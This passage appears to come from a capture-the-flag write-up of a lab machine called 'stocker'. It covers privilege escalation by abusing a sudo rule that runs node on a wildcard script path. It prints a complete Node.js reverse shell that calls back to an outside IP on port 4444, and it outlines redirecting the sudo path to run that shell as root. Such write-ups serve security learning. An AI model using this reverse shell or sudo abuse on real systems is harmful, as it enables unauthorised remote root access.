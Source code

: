 Now lets escalate our privilege to root

Checking sudo permission shows the user can run node binary on any js file in /usr/local/scripts/

```
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

But we don't have any read/write access in that directory

```
angoose@stocker:/usr/local/scripts$ ls -al
total 32
drwxr-xr-x  3 root root 4096 Dec  6 10:33 .
drwxr-xr-x 11 root root 4096 Dec  6 10:33 ..
-rwxr-x--x  1 root root  245 Dec  6 09:53 creds.js
-rwxr-x--x  1 root root 1625 Dec  6 09:53 findAllOrders.js
-rwxr-x--x  1 root root  793 Dec  6 09:53 findUnshippedOrders.js
drwxr-xr-x  2 root root 4096 Dec  6 10:33 node_modules
-rwxr-x--x  1 root root 1337 Dec  6 09:53 profitThisMonth.js
-rwxr-x--x  1 root root  623 Dec  6 09:53 schema.js
angoose@stocker:/usr/local/scripts$ 
```

So we can instead redirect it to a directory we specify

In our home directory I saved a js reverse shell in a file and i have a nc listener listening on port 4444

```
angoose@stocker:~$ nano shell.js
angoose@stocker:~$ cat shell.js 
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.14.17", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
angoose@stocker:~$ 
```

Now lets run the sudo priv but instead make it redirect to our directory
